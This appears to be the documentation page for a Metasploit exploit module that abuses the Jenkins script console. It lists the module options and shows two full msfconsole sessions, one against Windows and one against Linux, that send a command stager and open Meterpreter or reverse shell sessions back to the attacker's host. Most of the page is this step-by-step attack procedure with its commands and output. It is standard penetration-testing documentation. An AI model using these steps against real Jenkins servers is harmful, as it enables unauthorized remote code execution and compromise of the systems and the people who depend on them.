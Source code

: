 ## Vulnerable Application

  Jenkins can be downloaded from [jenkins.io](https://jenkins.io/) where
  binaries are available for a variety of operating systems. Both LTS and weekly
  builds are available.

  Default settings have the script console enabled and require a valid user
  account in order to access it. A known account can be used with this module by
  setting the `USERNAME` and `PASSWORD` options.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/multi/http/jenkins_script_console```
  4. Do: ```set RHOST [target host]```
  5. Do: ```set TARGET [target id]```
  6. Do: ```exploit```
  7. You should get a shell.

## Options

  **TARGETURI**

  The path to the target instance of Jenkins.

  **USERNAME**

  A username to an account that has access to the script console. This is only
  necessary if the Jenkins instance has been configured to require
  authentication.

  **PASSWORD**

  A password to an account that has access to the script console. This is only
  necessary if the Jenkins instance has been configured to require
  authentication and you aren't using an API_TOKEN (see below).

  **API_TOKEN**

  An API token to an account that has access to the script console. This is only
  necessary if the Jenkins instance has been configured to require
  authentication and you aren't using a PASSWORD (see above).

## Scenarios

  Example usage against a Windows 7 SP1 x64 bit target running Jenkins 2.19.1.

  ```
  msf > use exploit/multi/http/jenkins_script_console
  msf exploit(jenkins_script_console) > set TARGETURI /
  TARGETURI => /
  msf exploit(jenkins_script_console) > set USERNAME steiner
  USERNAME => steiner
  msf exploit(jenkins_script_console) > set PASSWORD I<3msf!
  PASSWORD => I<3msf!
  msf exploit(jenkins_script_console) > set RHOST 192.168.254.126
  RHOST => 192.168.254.126
  msf exploit(jenkins_script_console) > set RPORT 8080
  RPORT => 8080
  msf exploit(jenkins_script_console) > set PAYLOAD windows/meterpreter/reverse_tcp
  PAYLOAD => windows/meterpreter/reverse_tcp
  msf exploit(jenkins_script_console) > set LHOST 192.168.254.132
  LHOST => 192.168.254.132
  msf exploit(jenkins_script_console) > exploit

  [*] [2016.10.29-18:43:07] Started reverse TCP handler on 192.168.254.132:4444
  [*] [2016.10.29-18:43:07] Checking access to the script console
  [*] [2016.10.29-18:43:07] Logging in...
  [*] [2016.10.29-18:43:07] Using CSRF token: '9623d245b9d60b5ceda72e2d3613431c' (Jenkins-Crumb style)
  [*] [2016.10.29-18:43:07] 192.168.254.126:8080 - Sending command stager...
  [*] [2016.10.29-18:43:08] Command Stager progress -   2.06% done (2048/99626 bytes)
  [*] [2016.10.29-18:43:08] Command Stager progress -   4.11% done (4096/99626 bytes)
  [*] [2016.10.29-18:43:08] Command Stager progress -   6.17% done (6144/99626 bytes)
  [*] [2016.10.29-18:43:09] Command Stager progress -   8.22% done (8192/99626 bytes)
  [*] [2016.10.29-18:43:09] Command Stager progress -  10.28% done (10240/99626 bytes)
  [*] [2016.10.29-18:43:09] Command Stager progress -  12.33% done (12288/99626 bytes)
  [*] [2016.10.29-18:43:10] Command Stager progress -  14.39% done (14336/99626 bytes)
  [*] [2016.10.29-18:43:10] Command Stager progress -  16.45% done (16384/99626 bytes)
  [*] [2016.10.29-18:43:10] Command Stager progress -  18.50% done (18432/99626 bytes)
  [*] [2016.10.29-18:43:11] Command Stager progress -  20.56% done (20480/99626 bytes)
  [*] [2016.10.29-18:43:11] Command Stager progress -  22.61% done (22528/99626 bytes)
  [*] [2016.10.29-18:43:11] Command Stager progress -  24.67% done (24576/99626 bytes)
  [*] [2016.10.29-18:43:12] Command Stager progress -  26.72% done (26624/99626 bytes)
  [*] [2016.10.29-18:43:12] Command Stager progress -  28.78% done (28672/99626 bytes)
  [*] [2016.10.29-18:43:12] Command Stager progress -  30.84% done (30720/99626 bytes)
  [*] [2016.10.29-18:43:13] Command Stager progress -  32.89% done (32768/99626 bytes)
  [*] [2016.10.29-18:43:13] Command Stager progress -  34.95% done (34816/99626 bytes)
  [*] [2016.10.29-18:43:13] Command Stager progress -  37.00% done (36864/99626 bytes)
  [*] [2016.10.29-18:43:14] Command Stager progress -  39.06% done (38912/99626 bytes)
  [*] [2016.10.29-18:43:14] Command Stager progress -  41.11% done (40960/99626 bytes)
  [*] [2016.10.29-18:43:14] Command Stager progress -  43.17% done (43008/99626 bytes)
  [*] [2016.10.29-18:43:15] Command Stager progress -  45.23% done (45056/99626 bytes)
  [*] [2016.10.29-18:43:15] Command Stager progress -  47.28% done (47104/99626 bytes)
  [*] [2016.10.29-18:43:15] Command Stager progress -  49.34% done (49152/99626 bytes)
  [*] [2016.10.29-18:43:16] Command Stager progress -  51.39% done (51200/99626 bytes)
  [*] [2016.10.29-18:43:16] Command Stager progress -  53.45% done (53248/99626 bytes)
  [*] [2016.10.29-18:43:17] Command Stager progress -  55.50% done (55296/99626 bytes)
  [*] [2016.10.29-18:43:17] Command Stager progress -  57.56% done (57344/99626 bytes)
  [*] [2016.10.29-18:43:17] Command Stager progress -  59.61% done (59392/99626 bytes)
  [*] [2016.10.29-18:43:18] Command Stager progress -  61.67% done (61440/99626 bytes)
  [*] [2016.10.29-18:43:18] Command Stager progress -  63.73% done (63488/99626 bytes)
  [*] [2016.10.29-18:43:18] Command Stager progress -  65.78% done (65536/99626 bytes)
  [*] [2016.10.29-18:43:19] Command Stager progress -  67.84% done (67584/99626 bytes)
  [*] [2016.10.29-18:43:19] Command Stager progress -  69.89% done (69632/99626 bytes)
  [*] [2016.10.29-18:43:19] Command Stager progress -  71.95% done (71680/99626 bytes)
  [*] [2016.10.29-18:43:20] Command Stager progress -  74.00% done (73728/99626 bytes)
  [*] [2016.10.29-18:43:20] Command Stager progress -  76.06% done (75776/99626 bytes)
  [*] [2016.10.29-18:43:20] Command Stager progress -  78.12% done (77824/99626 bytes)
  [*] [2016.10.29-18:43:21] Command Stager progress -  80.17% done (79872/99626 bytes)
  [*] [2016.10.29-18:43:21] Command Stager progress -  82.23% done (81920/99626 bytes)
  [*] [2016.10.29-18:43:21] Command Stager progress -  84.28% done (83968/99626 bytes)
  [*] [2016.10.29-18:43:22] Command Stager progress -  86.34% done (86016/99626 bytes)
  [*] [2016.10.29-18:43:22] Command Stager progress -  88.39% done (88064/99626 bytes)
  [*] [2016.10.29-18:43:22] Command Stager progress -  90.45% done (90112/99626 bytes)
  [*] [2016.10.29-18:43:23] Command Stager progress -  92.51% done (92160/99626 bytes)
  [*] [2016.10.29-18:43:23] Command Stager progress -  94.56% done (94208/99626 bytes)
  [*] [2016.10.29-18:43:23] Command Stager progress -  96.62% done (96256/99626 bytes)
  [*] [2016.10.29-18:43:24] Command Stager progress -  98.67% done (98304/99626 bytes)
  [*] [2016.10.29-18:43:24] Sending stage (957999 bytes) to 192.168.254.126
  [*] [2016.10.29-18:43:24] Command Stager progress - 100.00% done (99626/99626 bytes)
  [*] Meterpreter session 1 opened (192.168.254.132:4444 -> 192.168.254.126:49258) at 2016-10-29 18:43:26 -0400

  meterpreter > sysinfo
  Computer        : PWNME-PC
  OS              : Windows 7 (Build 7601, Service Pack 1).
  Architecture    : x64 (Current Process is WOW64)
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 2
  Meterpreter     : x86/win32
  meterpreter >

  ```

  Example usage against a Linux x64 bit target running Jenkins 2.46.3.

  ```
  msf > use exploit/multi/http/jenkins_script_console
  msf exploit(jenkins_script_console) > set RHOST 172.17.0.1
  RHOST => 172.17.0.1
  msf exploit(jenkins_script_console) > set RPORT 8080
  RPORT => 8080
  msf exploit(jenkins_script_console) > set TARGETURI /
  TARGETURI => /
  msf exploit(jenkins_script_console) > set USERNAME admin
  USERNAME => admin
  msf exploit(jenkins_script_console) > set API_TOKEN 24e0b80d009ed12590ff85866d88c00d
  API_TOKEN => 24e0b80d009ed12590ff85866d88c00d
  msf exploit(jenkins_script_console) > set TARGET 1
  TARGET => 1
  msf exploit(jenkins_script_console) > set PAYLOAD linux/x86/shell/reverse_tcp
  PAYLOAD => linux/x86/shell/reverse_tcp
  msf exploit(jenkins_script_console) > set LHOST 10.0.2.4
  LHOST => 10.0.2.4
  msf exploit(jenkins_script_console) > exploit

  [*] Started reverse TCP handler on 10.0.2.4:4444 
  [*] Checking access to the script console
  [*] Authenticating with token...
  [*] Using CSRF token: 'd41639a6f5721760a8ee3df5d6a71eec' (Jenkins-Crumb style)
  [*] 172.17.0.1:8080 - Sending Linux stager...
  [*] Sending stage (36 bytes) to 172.17.0.2
  [*] Command shell session 1 opened (10.0.2.4:4444 -> 172.17.0.2:53962) at 2017-06-19 16:55:42 -0500
  [!] Deleting /tmp/AsqL5Pg payload file

  whoami
  jenkins
  id
  uid=1000(jenkins) gid=1000(jenkins) groups=1000(jenkins)
  uname -a
  Linux b4b4e715101e 4.4.0-79-generic #100-Ubuntu SMP Wed May 17 19:58:14 UTC 2017 x86_64 GNU/Linux
  ```

